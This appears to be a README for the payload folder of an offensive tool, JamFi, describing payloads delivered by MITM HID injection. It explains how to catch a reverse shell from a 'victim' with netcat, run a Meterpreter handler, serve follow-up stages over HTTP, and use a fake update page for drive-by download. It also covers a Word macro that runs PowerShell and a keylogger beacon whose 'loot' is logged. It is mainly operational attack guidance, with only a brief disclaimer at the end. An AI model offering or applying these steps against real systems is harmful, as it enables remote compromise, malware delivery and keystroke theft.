 # JamFi Payloads – MITM Tips & Tricks

This folder contains real payloads delivered by JamFi’s MITM HID Injection module (Option 11). Each payload behaves differently and may require you to open a listener, run Metasploit, or serve follow-up files. Here’s what each payload does and how to use it:

- **`reverse_shell.zip`** –  A zipped Bash reverse shell. When the victim extracts and runs it, it connects back to your terminal. You must run `sudo nc -lvnp 4444` before the victim opens it to catch the shell.

- **`loot_dropper.py`** –  A Python script that grabs and runs another payload from your hosted server. Before delivery, run `sudo python3 -m http.server 4444` and place your follow-up script (e.g., `payload.py`) in that directory.

- **`payload.exe`** –  A real Windows Meterpreter reverse shell. Requires Metasploit to be running: `msfconsole`, then `use exploit/multi/handler`, set the correct payload (`windows/meterpreter/reverse_tcp`), set `LHOST` and `LPORT`, then `run`.

- **`payload.bat`** –  A Windows batch script that downloads and runs `payload.exe` via PowerShell. It works on almost any Windows system and launches instantly when clicked. Be sure `payload.exe` is being served at `http://10.0.0.1/payload.exe`.

- **`payload.hta`** –  A Windows HTML application that auto-executes a PowerShell payload when opened. Ideal for older Windows versions and Internet Explorer. Make sure your `payload.exe` is reachable at the link hardcoded in the file.

- **`autostart.html`** –  A fake update page that redirects to download `payload.exe` immediately when loaded. Simple, quick, and effective for drive-by-style delivery.

- **`macro.vba`** –  A Word macro script that executes a PowerShell command when a `.docm` file is opened. You don’t need to modify this — just understand that it must be embedded in a Word doc manually for full execution.

- **`keylogger_beacon.py`** –  A Python keylogger beacon that connects to your server. To use it, listen on the defined port or modify it to suit your lab. Best for staged post-exploitation or testing EDR evasion.

All payloads are delivered via `http://10.0.0.1` by JamFi’s MITM module when you choose Option 11 and a payload from the list. 
Logs from keystrokes and page visits are saved to `loot/keystroke_log_*.txt` and `loot/session_log_*.txt`. 
You do not need to change the IP — JamFi handles it. Just make sure you’re listening or serving the next stage where needed. 


DISCLAIMER: Only test in controlled environments you have permission to test on. user assumes all risk.
